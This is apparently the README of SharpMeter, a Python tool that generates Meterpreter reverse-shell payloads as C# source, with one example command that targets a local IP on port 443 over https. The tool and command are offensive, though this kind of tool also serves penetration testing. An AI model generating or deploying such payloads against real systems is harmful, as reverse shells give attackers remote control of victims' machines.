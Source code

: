 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example
python SharpMeter.py 192.168.1.101 443 compileme.cs https -x -a -w
